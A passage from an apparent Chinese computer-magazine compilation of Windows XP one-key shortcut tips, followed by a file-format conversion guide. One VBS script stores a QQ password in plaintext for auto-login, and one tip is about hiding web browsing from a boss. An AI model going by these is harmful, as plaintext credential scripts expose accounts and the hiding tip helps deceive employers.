在完成界面中单击“Build Install Kit”按钮，便对已经安装的 Office 2003 进行打包。
在弹出的“保存”对话框中选择“安装包”需要保存的位置和文件名，单击[保存]按钮后，会弹出一个安装包的选项对话框，如图 4 所示。

一般情况下我们使用默认值即可，单击“确定”按钮后，便开始制作 Office 2003 安装包了。
InstallRite 制作的安装包，在安装时，只需轻松一点所需程序安装包，就可以轻松快速重装好自己的爱机，而且还能快速让办公室所有崩溃的机子重振雄风。

#### 2. “一指禅”神功之第二式：一键休眠

Windows XP 的休眠设置可以让电脑在不使用的情况下，自动进入“休息”状态，一旦被唤醒，又能以最快的速度恢复到“休息”前的状态，大大加快了开机时间。但 Windows XP，一般在默认情况下，休眠设置无效，因此，需要我们激活它。在使用这一招式前，首先要确认一下你计算机的硬件设备是否支持这一特性，否则，下面的操作无法进行。如果硬件支持，那么我们可以单击“开始→控制面板”，在弹出的“控制面板”窗口中双击“电源选项”，之后在“电源选项”对话框中单击“休眠”选项卡，接着再单击勾选“启用休眠”前的复选框，然后再单击“确定”按钮。如图 5 所示。

最后，单击“电源选项”对话框中的“高级”选项卡，选择选项卡下方“在按下计算机睡眠按钮时”下的下拉菜单中选择“休眠”。这样，以后只需用一指按下“Sleep”键，电脑就进入休眠了。

#### 3. “一指禅”神功第三式：一键屏保

现在有很多设计新颖，图案美丽的屏幕保护程序，总让我们忍不住想用它为我们的爱机装扮一番，可是常规的屏保启用方法很麻烦，使我们对其“欲尝又止”。下面，“一指禅”神功，可以帮大家达成心愿。具体修炼方法如下：

##### 步骤一：

先单击“开始→搜索→文件或文件夹”，在搜索条件窗口中，单击“所有文件和文件夹”，在文件名文本框中输入“*.scr”，之后在搜索范围的下拉列表中，选择系统文件存储的驱动器，再单击“搜索”，这时就会看到各种各样的屏幕保护程序，通过双击可以对你想看的屏保进行预览，选定之后右击该文件，此时会出现一个快捷菜单，单击快捷菜单中的“发送到”——“桌面快捷方式”。如图6所示。

##### 步骤二：

完成以上步骤后，回到桌面，右击创建到桌面上的屏保，在弹出的快捷菜单中选择“属性”，接着在弹出的“属性”对话框中，单击“快捷方式”选项卡，在快捷键设置中，随便设置一个快捷键，如F8，然后单击“确定”按钮。如图7所示。

这样，就可以灵活运用我们的“一指禅”神功了，只需食指按“F8”键，漂亮的屏保就启动了。

#### 4. “一指禅”神功第四式：一键关机或重启

关机或重启，是计算机操作中最常规简单的工作，也难免让我们感到枯燥单调。那么就来试试“一指禅”神功吧，它会让你对这原本单调的工作有一种焕然一新的感觉。

##### 步骤一：

在桌面上点击鼠标右键，会弹出一个快捷菜单，单击“新建→快捷方式”，在弹出的“创建快捷方式”窗口，单击“程序标题”输入：shutdown.exe -s -f -t 0，重启输入：shutdown.exe -r，单击“下一步”按钮。接着，在“选择程序标题”窗口，输入快捷方式的名称“关机”或“重启”，单击“完成”按钮返回桌面。

##### 步骤二：

右击桌面快捷方式“关机”或“重启”，在快捷菜单中单击“属性→快捷方式”，然后在快捷键中任意设置一个快捷键，如F2键，接着在“运行方式”窗口选“最小化”，单击“确定”按钮，完成设置。

这下，只需轻点设定的快捷键F2，系统就会自动关机或重启了。

#### 5. “一指禅”神功第五式：一键关电源

对一些没有启用Windows XP高级电源管理的计算机，关机后，不能自动关闭主机电源，常需我们亲自动手。不过，我们稍稍修改一下设置，“一指禅”神功就可派上用场了。

单击“开始→控制面板”，在弹出的“控制面板”窗口中双击“电源选项”，之后在“电源选项”窗口中，单击“高级电源管理”，勾选“启用高级电源管理支持”。接着，单击“电源选项”中的“高级”选项卡，“在按下计算机电源按钮时”下拉列表中选择“关机”。最后，单击“确定”按钮。如图8所示。

以后我们只需一指按下“Power”键，计算机就能自动关机，切断主机电源了。

### 二、办公篇

#### 1. “一指禅”神功第六式：一键打开记事本

忙碌的上班族总免不了使用Windows系统的记事本功能，下面就教大家用一种快捷的方法打开记事本。

具体方法如下：单击“开始→程序→附件”，找到“记事本”后点击鼠标右键，在弹出的快捷菜单中，单击“属性”，之后在“属性”对话框中选择“快捷方式”选项卡并在“快捷键”相对应的文本框中输入任意一个键（如F5）作为快捷键。最后，单击“确定”按钮，设置完毕。如图9所示。

以后，我们需要使用记事本功能时，就不必再瞪大眼睛在“开始”菜单中搜寻了，只需一指按下F5键，就万事OK啦！

#### 2. “一指禅”神功之第七式：一键抓图

直观精美的插图，往往能为我们的文本增色不少。特别是应用操作类的文本，一幅直观生动的图片说服效果常常胜过言语的表达，让人一看就明白。假如我们在办公中，需要截取屏幕的界面，却一时找不到抓图软件时，一定令人大伤脑筋。但现在不用急了，我这就教大家一个简单的抓取图片的方法，这个方法仅利用 Windows 系统自带的功能便能完成。

当屏幕显示自己需要的界面时，按下 “PrintScreen” 键，这时图像就已经被抓住了。接下来单击 “开始→程序→附件→画图”，打开画图板，然后单击菜单命令 “编辑→粘贴” 就可以了。如果你想改变图像格式，可以在 Photoshop 等作图软件中修改即可。

#### 3. “一指禅”神功第八式：一键切换、锁定用户

在公司，有时一台电脑往往要供好几个用户使用，如果遇到你在运行程序，或在网上下载大文件，怕别人误操作时，就需要锁定计算机来保证工作的顺利进行；如果同时事要用计算机执行其他任务时，还需切换用户。因此，“切换用户”、“锁定用户”是办公中的常用操作。

通常，Windows XP 切换用户时，采用的方法是单击 “开始→注销→切换用户”，或者通过按下组合键 “Ctrl+Alt+Del” 启动 “任务管理器”，在 “任务管理器” 中单击 “关机→切换用户” 或选择 “用户→断开” 命令。这些操作看起来简单，但对于笔者这种懒人来说还是嫌它太繁琐，于是又把 “一指禅” 神功用在了此操作上。具体做法如下：只需在键盘上按下 “Windows 徽标键” 不放，同时按下 “L” 键，这样 “切换用户的操作就大功告成了。这一操作同样适用于 “锁定用户”，但前提是用户设有密码保护。这招是不是方便多了？

#### 4. “一指禅”神功第九式：一键把资料“复印”进电脑

公司办公常需处理大量的文本、图表等资料，利用电脑办公的效率固然挺高，可是要把成堆的资料一点一点敲入电脑，这无疑又是一项浩大的工程；用复印、扫描的方法，这些资料又不易保存。假如能把这些资料一下子全复印进电脑，多好呀！现在，这一梦想已经变为了现实。

汉王科技新推出了文本王，这是基于汉王 OCR 技术的最新产品，如果办公室配备了这一宝贝，资料录入就不用再打字了，文本王能以每分钟六千字的速度将资料录入 “Word”，识别率达 99.6%。这下再多的纸质资料都不用怕了，我们可以将之转化为电子文档，任意编辑、修改。特别诱人的是，仅需一键就可以完成上千字的资料录入，动一动脚趾头都可以操作啦！

### 三、网络篇

#### 1. “一指禅”神功第十式：一键打开网页

喜欢网上冲浪的朋友，一定希望能快速进入自己喜欢浏览的网页。最近，不少品牌机为了实现一键上网专为键盘添加了特殊按键。但对大多数普通键盘的使用者来说，增加一个按键是不太现实的，但只要学到下面几招，各位照样可以施展 “一指禅” 神功，实现一键上网，进入你想浏览的任何页面。

##### 步骤一：

进入 IE 浏览器，打开自己常看的页面，如 “www.google.com”，单击菜单栏中的 “收藏夹→添加到收藏夹”，之后单击 “收藏→整理收藏夹”，在弹出的 “整理收藏夹” 窗口的右侧列表中选择 “www.google.com” 的网址并右击它。

##### 步骤二：

在弹出的快捷菜单中单击 “属性”，在 “google 属性” 窗口中单击 “Web 文档” 选项卡，并在 “快捷键” 中输入一个按键，如 F7，设置好后单击 “确定” 按钮。
以后，只需按一下 F7 键就可以快速进入你想浏览的网页了。

#### 2. “一指禅”神功第十一式：一键隐藏IE窗口

有些网迷上班也忍不住上网，可又怕被老板发现，有时 IE 窗口开多了无法瞬间关闭，‘逃’都来不及，不少朋友也因此吃尽了苦头。现在就教你用 ‘一指禅’ 神功瞬间让你的 IE 窗口隐身。
首先，下载一个名为 ‘一键没’ 的工具软件，大家可以到 http://down.ls.xz.cn/soft/25685.htm 下载。把它解压后，运行解压文件夹中的 ‘HideWindow.exe’ 文件，系统的托盘区就会自动添加一个 ‘一键没’ 图标，单击它则会弹出一个 ‘一键没’ 窗口，在 ‘热键’ 对应的文本框中，随意输入一个键，如 F3 键。如图 10 所示。

设置好后，单击 ‘应用’ 按钮完成。现在，你就可以安安心心地上网了，即使同时打开多个网页也不用担心。一旦发现危险靠近，只需按下 F3 键，所有 IE 窗口顿时变得无影无踪，危险解除后，再按 F3 键，先前浏览的 IE 窗口又会马上出现，你就放心大胆地冲浪吧！

#### 3. “一指禅”神功第十二式：一键完成网络诊断

下面我们再用 ‘一指禅’ 教大家做个网络系统医生。当系统网络出现了故障，Windows XP 操作的 ‘帮助中心’ 可以对故障进行一个完整的网络诊断，具体方法如下。

##### 步骤一：

单击 “开始→帮助与支持”，这时弹出一个 “帮助和支持中心” 的窗口，在 “搜索” 文本框中输入 “网络诊断”，开始搜索。如图 11 所示。

##### 步骤二：

单击搜索结果中的 “网络诊断”，这时会在右边窗口中出现 “网络诊断” 的控制面板。接下来按一下 “扫描您的系统”，网络诊断就开始了，扫描完以后，它还会给你提供详细的诊断报告。

#### 4. “一指禅”神功之第十三式：一键修复IE

越来越多的流氓网站和恶意网站为了吸引注意力，可以说是不择手段，弄得网民们苦不堪言。自己的IE不经意间就被流氓网站篡改了，本来好好的兴致也被那些不断弹出窗口的垃圾文件弄得兴致全无。更有甚者搞得计算机也不听使唤：右键菜单内容被改了，注册表不能编辑了，害得大家叫苦不迭。

遇到这些“流氓”就算是用配以最新病毒库的杀毒软件也无济于事。每次打开IE浏览器，“骚扰”窗口还是一个接一个地弹出来，令人防不胜防。虽然网上介绍了一些清除“流氓”窗口的办法，可用起来都十分麻烦。现在“一指禅”神功就教大家如何让中招的IE浏览器一键修复。

我们可以借助“上网助手”，它不仅具有强大的拦截功能，还有强大的“安全修复”功能。如果你的IE被恶意网站篡改，那就使用“上网助手”的“一键修复”功能吧！你只需单击IE工具栏中上网助手蓝色图标中的“一键修复浏览器”，恶意代码立刻就被全部清除。而且，这些“流氓”在网上留下的痕迹，也只需单击一个按钮就可以让它们消失得无影无踪。上网助手可以让我们安全又省心地上网，确实不愧为我们的网上好帮手。

#### 5. “一指禅”神功之第十四式：一键添加收藏网址

平时我们要将网址添加到收藏夹，一般需要单击“菜单栏”中的“收藏”，并在弹出的“收藏夹”对话框中进行确认。

其实，这些步骤我们只需使用“Ctrl+D”组合键，网页就被直接添加到收藏夹中，而不用再确认了。超级简单吧！

### 四、娱乐篇

#### 1. “一指禅”神功之第十五式：一键启用聊天程序

随着信息技术的发展，计算机的娱乐功能也日趋完善，就比如聊天工具现在就有好多种，如果每次一一启动这些程序既麻烦又浪费时间，接下来懒人们就学学如何用“一指禅”神功，一键启动这些程序吧！

##### 步骤一：

首先单击“开始 / 记事本”新建一个记事本文件，并输入以下命令：

```
Program1="C:\Program Files\Tencent\QQ\QQ.exe"
Program2="C:\Program Files\MSN Messenger\msnmsgr.exe"
(你还可以在此处添加Program 3……)
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program1)
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program2)
```

以上命令只是以两个聊天软件为例设置的，如果你运用的聊天软件还有许多，那么也可以仿照上面的格式在上、下两部分分别进行添加。设置完成后，将记事本文件的后缀名改为“.vbs”，单击“保存”，如“聊天.vbs”。

##### 步骤二：

为文件创建一个桌面快捷方式：右击文件，在弹出的快捷菜单中单击“属性”，接下来在“属性”窗口中单击“快捷方式”选项卡，在“快捷键”中任意设置一键作为快捷键，如“F1”，最后，单击确定按钮完成。下次，你只需按下F1键，就可同时启动所有聊天程序了。

#### 2. “一指禅”神功之第十六式：一键登录QQ

我们平时登录QQ都是先打开QQ然后再输登录号和登录密码。现在，最后教大家一招：一键自动登录QQ。

##### 步骤一：

首先，单击“开始→记事本”，新建一个记事本文件并输入如下命令：

```
Dim Program1
Program1= "C:\Program Files\Tencent\QQ\QQ.exe" 'QQ路径
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program1)
WScript.Sleep 2000
WshShell.AppActivate "QQ登录"
WshShell.SendKeys "+{TAB}"
WshShell.SendKeys "654321" 'QQ号码
WScript.Sleep 200
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "321" 'QQ密码
WScript.Sleep 200
WshShell.SendKeys "{ENTER}"
```

设置完成后，将记事本文件以扩展名为“vbs”格式的文件保存。记事本中的QQ密码、QQ路径和QQ号码，可按实际情况填写。

##### 步骤二：

右击该文件，在快捷菜单中单击“发送到→桌面快捷方式”，接下来，点击右键，在快捷菜单中选择“属性”，并在弹出的“属性”窗口中单击“快捷方式”选项卡，在“快捷键”一栏设置F4作为快捷键。以后，登录QQ时，一指轻点F4键，就能自动登录QQ。

**总结：**
键盘操作的“一指禅”神功其实就是利用简单的设置或软件的帮助对计算机的某些功能实现“一键”操作，这一技巧可以为我们使用计算机提供很大的便利，也节约很多时间，有兴趣的朋友不妨试试吧！

**常用快捷键一览**

| 功能 | 快捷键/方法 |
| :--- | :--- |
| 键盘截屏 | 按下 PrintScreen 键，然后粘贴到画图或图像处理软件中 |
| 切换用户/锁定计算机 | Windows徽标键 + L |
| 添加当前网页到收藏夹 | Ctrl + D |
| 系统网络诊断 | 开始→帮助与支持→搜索“网络诊断” |
| 修复IE浏览器 | 使用“上网助手”的“一键修复”功能 |## 文件格式转换大全

文 / 水月子

在电脑的日常应用当中，文件格式一直是困扰众多朋友的难题，因为不同的文件格式意味着某些应用软件就不能够正常处理了。从平常的办公应用，到图片处理、音频处理等等，都存在着这样的文件格式问题。在下面的文章之中，笔者将针对目前最主流的文件格式，来讲述一下如何转换各种文件格式，让大家在使用的时候得心应手。

### 一、办公文件轻松转换

在平时办公之中，我们需要处理多种不同格式的文件，包括了DOC、TXT、PPT、PDF、HTML，甚至是WPS格式，相信很多办公一族为了将这些格式相互转换而发愁了好久。由于种种原因，目前还没有一个软件能够全部搞定这些格式之间的文件转换，因此我们必须根据实际的需要来进行文件转换。

#### 1. PDF-TXT

PDF(Portable Document Format)格式文件是Adobe公司开发的电子文件格式，可以将文字、字型、格式、颜色及与设备和分辨率独立的图形图像等封装在一个文件中，该格式文件还可以包含超文本链接、声音和动态影像等电子信息，支持特长文件，集成度和安全可靠性都较高。由于PDF文件可以不依赖操作系统的语言和字体以及显示设备，就能“逼真地”将文件原貌展现给每一个阅读者，因此越来越多的电子图书、产品说明、公司文告、网络资料、电子邮件开始使用PDF格式文件。因此PDF格式文件目前已成为电子文档发行和数字化信息传播事实上的一个标准。但是很多情况下我们手头上都没有相应的PDF编辑器，顶多也只是有阅读器而已，因此最佳的方法就是把PDF转换成为我们容易编辑的文件，最好就是文本文件来阅读，这样编辑起来也非常方便。

转换PDF文件成为TXT的软件有很多，而使用率最高的莫过于Pdf2Txt了，我们可以在http://download.pchome.net/utility/file/manage/19333.html下载它的3.0汉化版。下载回来的是rar文件，Pdf2Txt是绿色软件，因此我们只要解压到任意一个目录，然后直接运行其中的可执行文件即可。Pdf2Txt的界面和功能都很简单，运行之后我们要做的第一件事就是点击“打开”按钮，选择你准备要转换的PDF文件。选择了文件之后，紧接着就会弹出一个让你“另存为”的对话框，只要指定好一个文件保存路径以及文件名，很快你就会发现自己的PDF文件已经被转换成为TXT文件了！

结果不是很令人满意，多数是因为设置的问题。我们在Pdf2Txt的界面上点击“菜单”按钮，这里我们可以选择把PDF文件输出成为简单的HTML文件，也算是起到一种转换的作用了。另外我们也可以设置“自动添加空格到文本文件”，一般来说Pdf2Txt的默认选项已经足够做到完美转换了，大家可以在转换过程出问题的时候多试试不同的选项。

#### 2. PDF-HTM

要把PDF转换成为HTM文件，虽然上面的Pdf2Txt也能够做到，但是功能毕竟有限，这里我推荐大家使用的是Pdf2Htm，它完全支持中英文PDF文档的转换，对PDF的版面信息可以完全保留，生成HTML的效果基本与原版的PDF一致，简单排版后即可输出，可以说功能非常强大，更妙的是这个软件也有汉化版，我们可以在 http://www.hanzify.org/?Go=Show::List&ID=2579 下载。

要进行文件转换的时候，我们只要点击菜单“文件→打开”，选择一个PDF文件，然后回到主界面之后就会弹出一个让我们设置转换之后的文件保存路径的窗口，设置好之后即可进行文件转换，使用起来很简单，而且中途我们还可以点击“暂停”按钮来暂停文件转换的过程。如果我们要设置一下具体的转换选项，可以点击“文件→参数设置”。一般来说我们可以设置的就是转换的页面。在缺省的状态下，Pdf2Htm会帮我们转换PDF里面的所有页码，当然我们点击“页面范围”下拉菜单，然后手动输入一个转换范围，譬如从“5”到“40”这样，Pdf2Htm就只会转换我们指定的这些页码了。另外输出大小以及JPEG文件的转换我们也可以指定一个缩放大小，一般情况下采用默认的选项即可。

#### 3. PDF-DOC

要将PDF转换成为DOC文件，其实并不需要第三方软件，我们只需要一个Adobe Reader和Office 2003即可。首先我们要在Office 2003里面添加一个名叫“Microsoft Office Document Image Writer”的组件。如果我们在安装Office的时候没有选择这个组件，那么可以打开Office 2003的安装光盘，然后运行setup，选择“添加和删除功能”，点击“下一步”之后，我们要把“选择应用程序的高级自定义”选项前面的方框选上。继续点击下一步，来到选择应用程序和工具的窗口，展开“Office工具”分支，把其中的“Microsoft Office Document Imaging”设置成为“从本机运行全部程序”，接着点击“更新”，很快这个组件就会添加到Office里面了。

接下来我们运行 Adobe Reader，打开想要转换的 PDF 文件，接下来选择“文件→打印”菜单，在打开的“打印”窗口中将“打印机”栏中的“名称”设置为 Microsoft Office Document Image Writer，点击确认之后，这个 PDF 文件就会输出成为 MDI 格式的虚拟打印文件。MDI 文件输出完毕之后，我们在 Office 的菜单里面找到并且打开 Microsoft Office Document Imaging，并利用它来打开刚才保存的 MDI 文件，然后选择菜单“工具→将文本发送到 Word”菜单，然后在弹出的窗口中选中“在输出时保持图片版式不变”，确认后系统会提示“必须在执行此操作前重新运行 OCR”。这可能需要一些时间，点击“确认”之后，Office 就会对 MDI 文件进行 OCR 处理并且转换了。转换的速度和时间是根据你的机器配置来决定的。由于 PDF 转成 DOC 的过程之中需要进行 OCR 文字识别，因此识别率并不是很好，而且转换后会丢失原来的排版格式，所以转换后还需要手工对其进行排版和校对工作。

#### 4. DOC-PDF

和将 PDF 转换成为 DOC 相比，把 DOC 转成 PDF 文件还是比较容易的，一般可以通过 Adobe 的 Adobe Distiller 虚拟打印服务器实现。这个虚拟打印服务器的原理和上面的 Office 虚拟打印组件差不多，只是两者之间的功能不一样罢了。要是用这个软件，我们必须安装 Adobe Acrobat 完全版，这样在安装完成之后，Windows 系统的打印机任务中就会添加了一个 Acrobat Distiller 打印机。我们如果想把一个 DOC 文件转换为 PDF 文件，只要用 Office Word 打开该 DOC 文件，然后在“文件→打印”中选择 Acrobat Distiller 打印机，然后进行打印，即可轻松地把 DOC 格式的文件转换为 PDF 文件。

有时候我们很难找到 Adobe Acrobat 完全版，这个时候我们可以采用一个另外方法。首先，我们用 Office 打开一个 DOC 文件，然后点击“文件→新建”，在右边的工具栏里面选择“模板→本机上的模板”，然后选择“其他文档→转换向导”。点击“下一步”之后，我们选择“从 Word 文档格式转换为其他格式”，在下拉菜单里面选择“HTML 文档”，点击下一步之后选择源文件和转换之后的目标文件夹，接下来的操作完全依照向导指示即可，很快我们的 DOC 文件就可以转换成为 HTML 文件了。这种转换方法是适合有多种格式的 DOC 文件转换的，如果直接将 DOC 文件另存为 HTML 文件，我们会丢失很多文件格式。转换完成之后，我们打开 Acrobat，然后按快捷键“Shift + Ctrl + O”启动“从网页创建 PDF”的功能，接着选中要转换成为 PDF 的 HTML 文件即可。这样我们就能够巧妙地实现把 DOC 转换成为 PDF 文件了。

#### 5. WPS-DOC

时至今日，虽然 DOC 已经成为了办公文件的绝对主流格式，但是不少人还是在使用 WPS 格式的文件，当我们遇到需要进行文件转换的时候，问题就来了，因为虽然 Office 可以打开 WPS 文件，但是效果不理想，而且对于 WPS 里面的一些图形和表格，Office 是无法在一般情况下打开的，这时候我们可以采用以下的方法。

如果系统里面同时存在 WPS 和 Office 的话，我们可以同时打开 WPS 和 Office 软件，然后这边在 WPS 里面按“Ctrl + A”全选，然后那边到 Office 里面按粘贴，这种方法能够比较有效地复制文字和表格，但是对于 WPS 里面一些混合了公式，或者是椭圆、集合图形等等数据就无法复制了。这时我们可以在 WPS 里面按住 Shift 键，分别选中表格与图形，或者是单击工具栏中的“选择”按钮，按下鼠标左键拖动，这样也能够将表格及图形全部选中。选中之后点击鼠标右键，在弹出菜单里面选择“组合”命令，即可将表格及图形组合在一起，然后再进行复制操作，这样即可把几何图形、公式之类的数据都复制到 Office 里面了。而在 Office 里面，这些数据将以图片的形式存在。

或者我们可以采用 WPS Office（以 2005 为例）自己的转换功能，而这种转换功能可以通过三个方法去实现。

##### 方法一：

安装时进行兼容设定，在我们安装 WPS Office 2005 时，在安装进程中会出现如图 1 的对话框，我们只要选择其中的 1.2 项就可以说万事无忧了，因此这样设置之后，系统就始终默认用 WPS Office 2005 打开并编辑 DOC、XLS、PPT 格式的文件，同时也可将编辑后的 WPS 文件始终默认保存为 MS Office 相应格式文件。


##### 方法二：

在工具菜单里面进行设置。首先我们用 WPS Office 2005 打开一个 WPS 文件，然后点击“工具→选项”，然后在弹出窗口里面选择“常规与保存”，在“文件默认保存方式”的下拉列表中选择 DOC 或者其他希望保存的格式，点击“确认”即可。经过上述设置，以后当你对 WPS Office 2005 打开的文件（WPS 格式文件或者 DOC、XLS、PPT 格式文件皆可）进行另存时，WPS Office 2005 都能够自动把文档优先保存为你所选择的默认格式。前两种方法适合那些一直或者经常需要改变文件保存类型的用户，但如果我们只是临时进行文件转换的话，可以在“另存为”对话框中设置。只要点击“文件→另存为”，然后在弹出的“另存为”对话框中选择 DOC 文件类型就可以了。

#### 6. WPS-HTML

如果要将 WPS 文件转换成为 HTML 文件，我们需要使用 WPS Office 打开 WPS 文件，然后点击“文件→另存为”，在“另存为”对话框的“保存类型”中选择 HTML 文件，然后点击“确定”即可将 WPS 文件转换为 HTML 文件。这种转换虽然 WPS 文件里面的表格和文字内容都保持完整，但是里面的图形却无法转换，而且表格中的文字排版、公式、符号等等都错乱了。要解决这个问题，一定要借鉴上述在Word里面转换WPS的方法，就是首先把表格、公式等等组合在一起，然后复制到Word里面，以图形的形式保存下来，然后在Word里面再把这些信息转贴到Photoshop、画图等软件之中，做成JPG文件。最后用WPS转换好HTML文件之后，再用网页编辑器，譬如Dreamweaver等编辑一下，重新插图就好了。这样做的话在转换后的很多内容是以图形的形式保存的，很难再进行编辑，因此在转换之前对原文件要校对好，否则一切都得重新进行哦。

#### 7. PPT-DOC

经常出差的朋友相信对PPT格式不会陌生，就是我们俗称的“幻灯片”了，由于它制作的文档特别适合会议演讲和产品演示，因此在办公领域中有绝对的使用率，不过由于不同的演示场合需要也不同，有时候我们需要把PPT转换成为别的文件格式，譬如DOC文件等。

首先我们打开PowerPoint软件，调入待转换幻灯文档。然后点击执行“文件→发送→Microsoft Office Word”命令，将其导出到Word软件。这时我们会看到如图2所示的弹出窗口，接着在这个窗口里面我们选择“只使用大纲”，最后点击“确定”。稍等片刻之后PPT文档便被导出为Word软件，这时我们再根据各自的要求对DOC文件进行相应的格式编排后保存就可以了。此外用PowerPoint转换DOC文件还有另外一个方法，那就是先打开PPT文档，然后选择“文件→另存为”命令，将保存类型更改为“大纲/RTF文件”，接着点击“保存”即可。我们可以用Word打开RTF文档进行编辑，和DOC是一模一样的。


#### 8. PPT-PDF

有时候我们需要将PPT文件转换成为PDF文件，虽然可以首先把PPT转换成为DOC文件再转换成为PDF文件，但是这样未免太繁琐，而且在转换的过程之中，我们会丢失很多格式，因此我们可以安装一款PowerPoint的插件PPT to PDF Converter来实现PPT到PDF的直接转换。PPT to PDF Converter是一款廉价的PDF文档快速生成软件。用户只需要在MS PowerPoint中选择“另存为PDF文件”即可创建专业品质的PDF文件，支持字体嵌入、分辨率调整、压缩以及多种语言。我们可以到 http://www.pdf-convert.com/d2/ppt2pdf2_setup.exe 去下载回来，安装完成之后，它便会在PowerPoint中生成一个快捷工具栏，我们点击其中的PDF Setting按钮就可以设置PDF转换时的参数了。一般来说用默认的设置即可，直接点击Save As PDF按钮便可以将PPT文档快速转换为PDF文件了。如果大家的系统里面有Adobe Acrobat，那么直接用它打开PPT文档即可，更加简单快捷。

### 二、图像文件格式转换

和别的文件格式转换相比，图像文件的转换就显得非常简单方便了，因为一直以来图像格式并不多，主流的也就那么两三种，因此很多转换软件都能够做到“一招走天下”，搞定所有格式的图像文件转换。

#### 1. ACDSee转换法

最简单的图像文件转换莫过于用ACDSee来转换了，尤其现在很多人电脑里面都安装了ACDSee，转换的时候基本上不需要下载别的软件帮忙。以下就用ACDSee 5.0为例子介绍一下如何转换图像格式。

- 步骤一：打开图像文件所处的目录，用鼠标选中一个图像文件，如果大家要进行批量转换的话也可以多选一些文件，但是不需要打开这些文件，因为在打开文件的状态下每次只能转换一个文件而已。
- 步骤二：选择好文件之后我们点击“工具→格式转换”，我们可以任意选择一种要转换成的格式，有些格式还可以点击“格式设置”来进行更详细的转换选项调整。譬如转换成为JPG图像，如果不想图像质量太差的话，建议大家选择95％以上的图像品质。大多数格式都无法进行格式设置，另外我们也可以点选“移除原始文件”，这样在格式转换之后ACDSee就会帮你自动删除原来的文件了。设置好了之后点击“确定”，很快图像文件就转换完成了。

ACDSee的图像转换功能虽然简单，但是转换之后的效果绝对是非常专业的。

#### 2. Fotobatch

如果你经常需要进行图像转换，觉得ACDSee不能满足你的要求的话，可以使用一下这款Fotobatch，我们可以到 http://www.997.cn/Download.asp?ID=9060 去下载它的5.0中文版，Fotobatch支持目前所有流行的图像格式，包括BMP、JPG、GIF、PNG、TIF、PCX、WMF、EMF、TGA、ICO、WBM等。我们要转换图像的时候，除了可以打开Fotobatch进行转换之外，它还在Windows右键菜单集成了转换命令，你可以直接选中图片然后单击鼠标右键转换图片，这样你不用启动Fotobatch即可完成全部的文件转换功能了，下面我们就一步一步来学习如何利用它来进行图像文件转换。

- 步骤一：打开Fotobatch的主界面（如图3），主界面其实可以分为四个区域，分别是上方的菜单按钮区，左边的驱动器区和预览区，中间的文件列表区以及右边的快速工具栏。
- 步骤二：当我们要转换图片的时候，首先在驱动器区里面打开存放了图片的目录，然后用鼠标点选一个或者多个图形文件，在选择的过程中，我们可以看到被缩小的预览图。然后我们点击向右箭头，把选中的文件添加到中间的文件转换列表里面。也可以点击向右的双箭头，把当前目录里面的所有图像文件都添加进去。


- 步骤三：当文件添加完成之后，再点击右边的快速工具栏中的想要转换成为的图像格式即可。在默认的状态下，转换了之后的图像文件会存放在和源文件同一个目录下面。

Fotobatch 在安装的时候已经在系统的右键菜单里面添加上自己的快速转换功能了，因此我们并不需要启动 Fotobatch 就可以进行图像文件的转换。首先用资源管理器打开存放图像文件的目录，然后选择要进行转换的文件之后，点击鼠标右键，在弹出菜单里面选择 “Fotobatch → Convert to ...” 即可，马上图像文件就会被转换好了，真的非常方便。

如果我们要批量转换图片，在之前需要进行设置，点击软件主界面右边的快速工具栏上的 “批量转换→设置”，在这里我们可以设置不同格式文件的转换参数，譬如图像质量、是否平滑处理、GIF 是否 256 色、是否透明色等等。如果我们在批量转换之后要把图像文件批量重命名，可以在对话框里面点击 “转换设置” 标签，然后在 “Filename” 里面进行设置。譬如说：要在当前文件名前面加上前缀或者后缀，可以在相应的地方填上要加的文字，如设置一个前缀 PIC；“开始” 就是指从什么数字开始，譬如 0；“长度” 就是指所添加的数字的长度，譬如 3。那么进行批量转换之后，我们所得到的文件名前面就会加上 PIC000，PIC001，PIC002……如此类推。设置好了之后回到文件列表，即可点击相应的图像文件格式进行文件批量转换了。

除了可以转换成其他格式的图像外，Fotobatch 还可以将你的图片转换成 TXT、RTF、HTM 等字符画格式，其功能不弱于其他的 ASCII 字符画转换软件。在 Fotobatch 主界面上面点击 “工具→创建字符画”，一般情况下我们可以选择创建 HTML 格式的字符画，也可以转换成为 TXT 文件，后者让我们可以很方便地把一些字符画贴到诸如 BBS、聊天室或者 E-mail 里面。在这里设置好了之后我们点击 “打开”，选择任意一副图片，最后点击 “创建”，很快一张字符画就创建完成了。这里要提醒大家的是，如果图像太复杂，最好还是采用 HTML 或者 RTF 格式，TXT 文件只适合用来表示简单的图像。

有时候我们可能会在没有图像浏览软件的电脑上面浏览图片，或者不想让别人轻易复制你的图片，这时候我们可以利用 Fotobatch 将图片全部打包创建成 EXE 文件。首先我们把文件添加到主界面中间的文件列表中，然后点击上方的 “创建 EXE 文件” 按钮，在这里我们可以调整被选中的图像文件的顺序，也可以进行其他的设置，譬如说图片自动切换的间隔、是否隐藏光标、是否随机播放，以及是否禁用鼠标右键功能、定义鼠标左键功能等等。为了让图片能够真实地进行还原，我们可以将 “压缩率” 设置成为 “无损压缩”，当然这样的代价是 EXE 文件的体积会很大。最后点击 “创建”，系统会询问你把创建之后的 EXE 文件放在什么地方，指定好了之后点击 “保存”，很快 EXE 文件就做好了。它能够完全脱离图像浏览器进行图像自动播放，我们也可以将它作为幻灯片来播放。

### 三、视频文件格式转换

我们平常接触的视频格式有很多，相信大家都不会对诸如 AVI、MPEG、MOV、RM 等常见视频格式感到陌生。虽说现在很多视频播放软件都能够同时支持大多数视频格式，但有时候我们可能要把一个体积巨大的 MPEG 文件放到网上传播，这时当然要把它首先转换成为 RM 最好了，因为这样体积小了很多。同样，我们有时候可能需要把一段 RM 电影刻录成为 VCD 在电视机上面观看，这又需要对这些视频进行转换了，下面要说的就是将目前主流的各种视频文件进行相互地灵活转换。

### 1. MPEG 文件转换

如果我们手头上有 MPEG 的视频文件，要将它转换成为 AVI(DivX/XviD/MPEG-4)、VCD、SVCD、DVD(PAL/NTSC)、WMV、ASF 或者其他类型的 MPEG-1、MPEG-2 的文件的话，最佳的工具莫过于 Ultra MPEG Converter，它不但能够转换 MPEG 视频文件，还能够进行分割和合并文件，更加支持对超过 2GB 的超大视频文件进行操作。我们可以在 http://www.51dd.com/ViewDownloadUrl.asp?ID=30756 下载它最新的 3.14 汉化版。

